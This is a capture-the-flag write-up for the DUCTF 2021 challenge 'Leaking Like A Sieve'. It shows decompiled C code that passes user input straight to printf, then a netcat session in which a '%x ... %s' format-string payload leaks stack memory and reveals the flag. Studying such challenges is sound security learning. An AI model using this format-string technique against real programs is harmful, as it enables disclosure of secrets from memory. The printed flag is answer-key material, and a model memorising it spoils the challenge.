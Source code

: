 # Leaking Like A Sieve | DUCTF 2021

## Problem
This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?
  
Author: xXl33t_h@x0rXx  
nc pwn-2021.duc.tf 31918  

## Solution
Decompile in Ghidra, check out the source.
```c
void main(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts(
        "The flag file isn\'t loading. Please contact an organiser if you are running this on theshell server."
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

Because there is no input validation into printf function in the loop, it is possible to leak memory and have it return to the user.  
It just takes some trial and error to find the right spot where the flag is located in memory. Addresses can be pulled from the stack with %x and read with %s.
```bash
┌──(kali㉿kali)-[]-[~/Downloads]
└─$ nc pwn-2021.duc.tf 31918

What is your name?
%x %x %x %x %x %s

Hello there, d7e422d0 a50348c0 0 e a52604c0 DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```